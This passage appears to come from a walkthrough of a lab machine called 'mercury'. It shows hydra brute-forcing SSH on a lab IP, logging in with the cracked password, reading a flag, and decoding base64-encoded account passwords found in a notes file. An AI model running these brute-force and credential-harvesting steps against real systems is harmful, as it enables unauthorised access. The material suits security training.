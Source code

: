 I then used `hydra` to attempt SSH login with these credentials:

```shellscript
hydra -L users.txt -P passwords.txt 192.168.1.20 -s 22 ssh
```

`hydra` successfully found the credentials for `webmaster`:
`host: 192.168.1.20 login: webmaster password: mercuryisthesizeof0.056Earths`

I then logged in via SSH as `webmaster`:

```shellscript
ssh webmaster@192.168.1.20
```

Password: `mercuryisthesizeof0.056Earths`

I successfully gained an initial shell as the `webmaster` user.

## Privilege Escalation

### Initial Enumeration as `webmaster`

Upon gaining the shell, I listed the contents of the home directory:

```shellscript
webmaster@mercury:~$ ls
mercury_proj  user_flag.txt
```

I found `user_flag.txt`:

```shellscript
webmaster@mercury:~$ cat user_flag.txt
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

I navigated into the `mercury_proj` directory:

```shellscript
webmaster@mercury:~/mercury_proj$ ls
db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
```

Inside `mercury_proj`, I found `notes.txt`:

```shellscript
webmaster@mercury:~/mercury_proj$ cat notes.txt
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

These appeared to be base64 encoded passwords. I decoded them:

```shellscript
webmaster@mercury:~/mercury_proj$ echo "bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK" | base64 -d
mercuryisthesizeof0.056Earths
webmaster@mercury:~/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```
